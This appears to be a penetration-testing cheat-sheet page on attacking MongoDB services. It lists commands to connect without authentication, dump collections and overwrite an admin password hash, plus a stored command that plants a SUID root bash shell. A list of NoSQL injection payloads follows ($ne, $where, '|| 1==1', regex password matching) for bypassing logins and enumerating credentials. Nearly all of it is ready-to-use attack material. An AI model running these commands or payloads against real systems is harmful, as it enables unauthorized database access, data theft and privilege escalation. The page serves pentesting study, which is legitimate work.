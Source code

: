 # 27017-19, 27080, 28017 - MongoDB

{% hint style="info" %}
Check also [nosqli.md](../web-pentesting/sql-injection-sqli/nosqli.md "mention")
{% endhint %}

{% hint style="info" %}
Try **mongo** command with no auth or default/weak creds
{% endhint %}

{% code fullWidth="true" %}
```bash
https://nullsweep.com/a-nosql-injection-primer-with-mongo/
https://www.mongodb.com/docs/manual/core/index-wildcard/
https://www.mongodb.com/docs/manual/tutorial/query-documents/
https://www.mongodb.com/docs/manual/reference/operator/query/

https://exploit-notes.hdks.org/exploit/database/mongodb-pentesting/

# Local
mongo
mongo --port 27017

# Remote
# SYNTAX: https://docs.mongodb.com/manual/mongo/
# We search running processes that might be app.js with databases. The database name is included in the connection string:
mongodb://$USER:$PASS@$IP:$PORT/$DATABASE
mongo --host <target-ip> --port 27017 -u username -p password
mongo "mongodb://<target-ip>:27017"
mongo "mongodb://username:password@<target-ip>:27017/?authSource=admin"

# Some MongoDB commnads:
show dbs
use <db>
show collections
db.<collection>.find()  #Dump the collection
db.<collection>.find().pretty()
https://www.mongodb.com/docs/manual/reference/method/db.collection.find/#modify-the-cursor-behavior
db.<collection>.count() #Number of records of the collection
db.current.find({"username":"admin"})  #Find in current db the username admin

# Update
> db.<collection_name>.update({id: "1"}, {$set: {username: "king"}})
db.admin.update({"_id": ObjectId("741ce268f46e0fc0012d47ac4")}, {$set: {"x_shadow": "$1$rOzPQxFM$S4G5y1TR4FD96DnkDtecG0"}})
# Delete
> db.<collection_name>.remove({"name": "Micael"})
# Delete all documents
> db.<collection_name>.remove({})

# Data in MongoDB is stored like in JSON
# The structure is database > collections > documents
# The command to create a document is:
db.$COLLECTION.insertOne( { $ID: $VALUE } );
db.hair.insert({'x': '1'})
db.books.find({ title: ‘The Hobbit’ })

# We can also use SUID instead of spawning a reverse shell:
db.collect.insert( { "cmd" : "cp /bin/bash /tmp/rootbash; chmod u+s /tmp/rootbash;" } )
# NOTE: sometimes you need to complement SUID with chmod 6755 to that binary
```
{% endcode %}

## Payloads

{% code overflow="wrap" fullWidth="true" %}
```mongodb
|| 1==1
'|| 1==1
'|| '1'=='1
' || 'a'=='a
admin'|| '1'=='1
# Things above work because if we try Dev Tools > Console
true || false && false -> answer is true because false && false is evaluated together
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Operator_Precedence#table
# It works in case the backend code is sth like this.username === 'admin' || '' === '' && this.password === 'value'


true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
'; return '' == '
';return 'a'=='a' && ''=='
";return(true);var xyz='a
0;return true
```
{% endcode %}

## User and pass enum

{% embed url="https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration" %}
